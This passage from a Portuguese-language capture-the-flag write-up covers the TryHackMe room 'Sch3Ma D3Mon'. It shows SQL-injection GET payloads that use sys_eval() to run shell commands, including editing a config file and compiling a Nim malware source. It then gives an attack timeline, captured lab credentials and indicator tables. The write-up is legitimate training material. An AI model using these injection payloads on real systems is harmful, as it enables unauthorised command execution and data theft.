GET /os_sqli.php?user=user' union select null,null,null,null,sys_eval("printf '%s\n' 'debug=true' > /home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/config.ini") -- //
```

Em seguida, o compilador **Nim** foi invocado sobre o código-fonte do malware (`mmmbar.nim`) através do mesmo canal de execução de comandos:

```bash
GET /os_sqli.php?user=user' union select null,null,null,null,sys_eval("nim /home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/mmmbar.nim") -- //
```

Com `debug=true` habilitado, o processo de build retornou, no campo **Description** da resposta da aplicação, a confirmação da compilação **acompanhada da flag do desafio**:

```
Username:
Name:
Description: Build done. THM{3FDbU2nNy2FW7yMvMoH6WTMMM}
```


> 🚩 **FLAG CAPTURADA: `THM{3FDbU2nNy2FW7yMvMoH6WTMMM}`**

---

## ⛓ Linha do Tempo do Comprometimento

```
[24/08 17:31 GMT] FASE 1 — ANÁLISE DE PCAP (Wireshark)
    Decriptação TLS via Pre-Master-Secret log
    Credenciais 'lannister:hrpTfL42wMv3' + POST /searchproducts.php (param searchitem) capturados
    ↓
[24/08] FASE 2 — VALIDAÇÃO MANUAL
    Contagem manual de colunas via UNION SELECT → 5 colunas confirmadas
    ↓
[24/08 21:13–21:14] FASE 3 — SQLMAP: CONFIRMAÇÃO + ENUMERAÇÃO
    Parâmetro 'searchitem' injetável (boolean/error/time/UNION) — back-end MySQL >= 5.6
    Bases: information_schema, mayh3Mmarketplace, mysql, performance_schema, sqlitraining, sys
    ↓
[24/08 21:20–21:21] FASE 4 — DUMP unlisted_products
    Rota oculta descoberta: os_sqli.php ("do not navigate to")
    ↓
[24/08 21:22] FASE 5 — DUMP easter_egg
    Mensagem "Impressive snooping!" → halloffame.php (Hall of Fame)
    ↓
[24/08] FASE 6 — OS COMMAND INJECTION (os_sqli.php)
    sys_eval('pwd') → /var/lib/mysql — RCE via SQLi confirmado
    ↓
[24/08] FASE 7 — ENUMERAÇÃO DO MARKETPLACE DE MALWARE
    /home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/ → build.sh, config.ini, mmmbar.nim, readme.txt
    ↓
[25/08 01:32–01:35 GMT] FASE 8 — DUMP transactions
    9 transações, carteiras bcoin_sender_address enumeradas
    Transação 3000000 → eqFN5vBg4n2t4xGsJF7BYNWMtTaVA1muES
    ↓
[24/08] FASE 9 — DESCRIPTOGRAFIA DO RECIBO (GPG)
    gpg --passphrase <carteira> --decrypt 3000000.txt.gpg
    Confirmação: compra do pacote MisterMeist3r/2DC6C0
    ↓
[24/08] FASE 10 — DEBUG + BUILD DO MALWARE (Nim)
    config.ini → debug=true / nim mmmbar.nim
    FLAG: THM{3FDbU2nNy2FW7yMvMoH6WTMMM} ✓
    ↓
[25/08 01:35 GMT] DESAFIO CONCLUÍDO — SQLi, OS Command Injection e marketplace de malware totalmente enumerados
```

---

## 🗺 Mapeamento Investigativo

| Fase | Ferramenta/Técnica | Achado |
|------|--------------------|--------|
| Análise de tráfego | Wireshark (decriptação TLS) | Credenciais `lannister:hrpTfL42wMv3` + requisição a `/searchproducts.php` (param `searchitem`) |
| Validação manual | UNION SELECT (contagem de colunas) | Consulta original com 5 colunas |
| Confirmação/Automação | sqlmap (`-p searchitem`) | Injeção boolean/error/time/UNION confirmada — MySQL ≥ 5.6 |
| Enumeração de bases | sqlmap (`--dbs`) | Base `mayh3Mmarketplace` identificada entre 6 bases |
| Dump de tabela | sqlmap (`-T unlisted_products`) | Rota oculta `os_sqli.php` descoberta |
| Dump de tabela | sqlmap (`-T easter_egg`) | Página `halloffame.php` referenciada |
| Segunda vulnerabilidade | `os_sqli.php` + `sys_eval()` | OS Command Injection via SQL Injection confirmada |
| Enumeração do SO | `sys_eval("ls ...")` | Marketplace de malware localizado (`MisterMeist3r/2DC6C0`) |
| Dump de tabela | sqlmap (`-T transactions -C ...`) | 9 transações e carteiras Bitcoin correlacionadas |
| Descriptografia | `sys_eval("gpg ...")` | Recibo confirma compra do pacote de malware (transação 3000000) |
| Build/Debug | `sys_eval("printf ...")` + `sys_eval("nim ...")` | Compilação do malware em modo debug revela a flag |

---

## 🚨 Artefatos e Indicadores Identificados

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Alvo | `10.64.153.228:8000` / `10.65.171.82:8000` | Aplicação "Mayh3M Marketplace" (TryHackMe — TryHack3M: Sch3Ma D3Mon) |
| Credenciais expostas | `lannister:hrpTfL42wMv3` | Capturadas via decriptação de tráfego TLS (POST `/login.php`) |
| Endpoint vulnerável | `/searchproducts.php` (param `searchitem`) | SQL Injection não autenticada — boolean/error/time-based e UNION query |
| Rota oculta | `os_sqli.php` | Descoberta via dump da tabela `unlisted_products` |
| Fácil descoberto | `halloffame.php` | Referenciado na tabela `easter_egg` |
| Vulnerabilidade crítica | OS Command Injection via SQLi (`sys_eval()`) | Execução arbitrária de comandos no servidor a partir de `os_sqli.php` |
| Pacote de malware | `/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/` | `build.sh`, `config.ini`, `mmmbar.nim`, `readme.txt` |
| Recibo criptografado | `/home/receipts/3000000.txt.gpg` | Descriptografado com a carteira do remetente como passphrase GPG |
| Carteira Bitcoin (IOC) | `eqFN5vBg4n2t4xGsJF7BYNWMtTaVA1muES` | Remetente da transação 3000000 — compra do pacote de malware |
| Flag do desafio | `THM{3FDbU2nNy2FW7yMvMoH6WTMMM}` | Revelada no output de build do compilador Nim em modo debug |
| Técnica (OWASP) | A03:2021 – Injection | SQL Injection em `searchitem` e OS Command Injection via `sys_eval()` em `os_sqli.php` |
| Técnica (MITRE ATT&CK) | `T1190` (Exploit Public-Facing Application) | Exploração da SQLi/OS Command Injection para acesso e execução no servidor |
| Técnica (MITRE ATT&CK) | `T1552.001` (Unsecured Credentials in Files) | Credenciais em texto claro trafegando/expostas na captura de rede |
| Técnica (MITRE ATT&CK) | `T1046` (Network Service Discovery) / `T1082` (System Information Discovery) | Enumeração do sistema de arquivos via `sys_eval("ls ...")`/`pwd` |

---

## ✅ Resumo da Flag

| # | Flag | Valor | Origem |
|---|------|-------|--------|
| 🚩 Flag | Output de build do compilador Nim (modo debug), via OS Command Injection em `os_sqli.php` | `THM{3FDbU2nNy2FW7yMvMoH6WTMMM}` | `sys_eval("nim .../mmmbar.nim")` após `config.ini` alterado para `debug=true` |

---

## 📚 Referências

- [TryHackMe — TryHack3M: Sch3Ma D3Mon](https://tryhackme.com/room/sch3mad3mon)
- [OWASP — SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [sqlmap — Documentação Oficial](https://sqlmap.org)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK T1082 — System Information Discovery](https://attack.mitre.org/techniques/T1082/)

---